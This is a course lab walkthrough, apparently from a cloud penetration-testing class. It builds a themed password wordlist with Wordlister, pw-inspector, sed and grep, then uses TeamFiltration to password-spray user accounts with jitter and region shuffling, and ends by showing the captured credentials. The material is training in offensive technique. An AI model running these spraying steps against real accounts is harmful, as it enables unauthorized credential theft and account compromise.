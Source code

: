 ## Create Wordlist in camel case format, that matches the syntax `SnakeJazz2020`

### 1. Add the years to the worldlist
```
echo "2019" >> /opt/Wordlister/words.txt
```
```
echo "2020" >> /opt/Wordlister/words.txt
```
```
echo "2021" >> /opt/Wordlister/words.txt
```
```
echo "2022" >> /opt/Wordlister/words.txt
```

### 2. Use the wordlister python script to manipulate the words.txt file 
```
python3 /opt/Wordlister/wordlister.py --cap --input /opt/Wordlister/words.txt --perm 3 --min 4 --max 30
```
> 
    --input: `words.txt is the output
    --cap: This capitalizes all the words
    --perm 3: This instructs Wordlister to make a permutation of 3 words
    --min 4: The minimum number of characters is 4
    --max 30: The maximum number of characters is 30


### 3. Remove junk words and put them in a text file called pw1.txt
```
cat /opt/Wordlister/output.txt  | grep -v '^20\|Tammy\|Terry\|Gummerman\|terry\|tammy\|jerry\|Jerry\|Smith\|Summer\Sleepy\|sleepy\|gary\|Gary' > /opt/Wordlister/pw1.txt
```

### 4. Remove all smallwords with `pw-inspector` from hydra
```
pw-inspector -i /opt/Wordlister/pw1.txt -o /opt/Wordlister/pw2.txt -m 13 -M 20 -c 3 -l -u -n
```

> 
    -m 13: minimum of 13
    -M 20: maximum of 20
    -c 3 : number of types required for character sets
    -l : lowercase characters
    -u : uppercase characters
    -n : numerical characters

### 5. Remove all words that do not reflect the desired syntax
```
sed '/^[[:lower:][:punct:]]/d' /opt/Wordlister/pw2.txt > /opt/Wordlister/pw3.txt
```

### 6. Only include words that end in numbers
```
grep -E '[0-9]$' /opt/Wordlister/pw3.txt > /opt/Wordlister/pw4.txt
```

### 7. Validate there should be about 30K passwords
```
cat /opt/Wordlister/pw4.txt | wc -l
```

### 8. Validate the correct syntax
```
cat /opt/Wordlister/pw4.txt | grep '^BirdPerson2021'
```

### 9. Use the Teamfiltration tool for password spraying
```
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --spray --validate-login --sleep-min 1 --sleep-max 3 --jitter 1 --usernames /home/sec588/Coursefiles/workdir/users.txt --passwords /home/sec588/Coursefiles/workdir/passwords.txt --shuffle-users --shuffle-regions
```

This tool sometimes will crash unexpectedly where you will see errors like:

    Cannot resolve the Amazon API Gateway that was just created
    Too many Gateway request for delete at one time
    False negatives where this may occur in the middle of a scan

It is important to note that while this may seem like a problem, in many cases deleting the database can help you recover. Here is a simple way to do so:
```
rm -Rf /home/sec588/Coursefiles/workdir/teamfiltration
```
```
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --enum --validate-login --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --usernames /home/sec588/Coursefiles/workdir/users.txt
```

### 10. View the results
```
/opt/teamfiltration/TeamFiltration --outpath /home/sec588/Coursefiles/workdir/teamfiltration --config /home/sec588/Coursefiles/workdir/TeamFiltrationConfig_SEC588.json --database
```

> 
    --usernames: A file containing the usernames
    --outpath: This is the location where the teamfiltration database will live
    --config: This is the configuration file to use
    --validate-login: Use the more "noisy" flag in this way it will have 1 bad password attempt per email address
    --spray: This is to perform a password spraying attack
    --sleep-min: This will set the minimal sleep interval (1 minutes)
    --sleep-max: This will set the maximum internal to wait (3 minutes)
    --jitter: This is the amount to jitter between maximum and minimum time intervals
    --usernames: This is the file containing usernames
    --passwords: This is the file containing passwords
    --shuffle-users: This command is to shuffle the usernames to test so that they are tested in different orders
    --shuffle-region: This command is to shuffle between regions


```
show creds
```
